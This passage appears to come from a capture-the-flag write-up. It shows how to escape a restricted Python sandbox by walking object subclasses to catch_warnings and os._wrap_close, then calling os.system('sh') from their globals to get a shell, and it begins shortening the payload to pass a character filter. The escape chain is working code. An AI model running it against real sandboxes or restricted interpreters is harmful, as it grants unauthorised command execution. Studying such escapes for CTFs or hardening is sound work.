 ```python
>>> ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, ... ]
```

We can now use these objects to break out from our rather restricted environment - the most commonly chosen object from this list is the catch\_warnings object from the warnings module, found at position 139 in my example object list - this is because this object uses the `sys` module as part of its `__init__` function, and thus has the `sys` module present in its global variables. As can be seen from [https://github.com/python/cpython/blob/main/Lib/warnings.py](https://github.com/python/cpython/blob/main/Lib/warnings.py),&#x20;

```python
class catch_warnings(object):

    ...

    def __init__(self, *, record=False, module=None):
        """Specify whether to record warnings and if an alternative module
        should be used other than sys.modules['warnings'].
        For compatibility with Python 3.0, please consider all arguments to be
        keyword-only.
        """
        self._record = record
        self._module = sys.modules['warnings'] if module is None else module
        self._entered = False

```

In turn, the `sys` module imports the `os` module, and keeps a list of which modules it has imported in `modules` - the `os` module contains the `system` function - capable of executing a string passed to it and dumping the result to stdout - this is my ultimate goal. Putting all of that together, in my example I can obtain access to the system function like this, and thus give myself a shell

```python
>>> ().__class__.__base__.__subclasses__()[139].__init__.__globals__["sys"]
<module 'sys' (built-in)>
>>> ().__class__.__base__.__subclasses__()[139].__init__.__globals__["sys"].modules["os"]
<module 'os' from '/usr/lib/python3.8/os.py'>
>>> ().__class__.__base__.__subclasses__()[139].__init__.__globals__["sys"].modules["os"].system("sh")
$ 
```

This solves our first problem, but this payload needs to contain no quotes, letters and spaces, as well as be short enough to qualify to solve this challenge. First, we can improve the length of this slightly - we could get access to `__builtins__` directly from the `sys` module, as it has its own copy, but we can note that the top of the file it does `import string, os` meaning that their code actually has `os` already imported as a global, and some objects from `os` are present in the overall object list. Some enumeration revealed some promising candidates - I chose `os._wrap_close` - it was present in the overall object space, and as part of the os module it also had every single other function from `os` present in its globals - this meant I could shorten my payload considerably like so

```python
>>> ().__class__.__base__.__subclasses__()[132]
<class 'os._wrap_close'>
>>> ().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]
<built-in function system>
>>> ().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("sh")
$ 
```
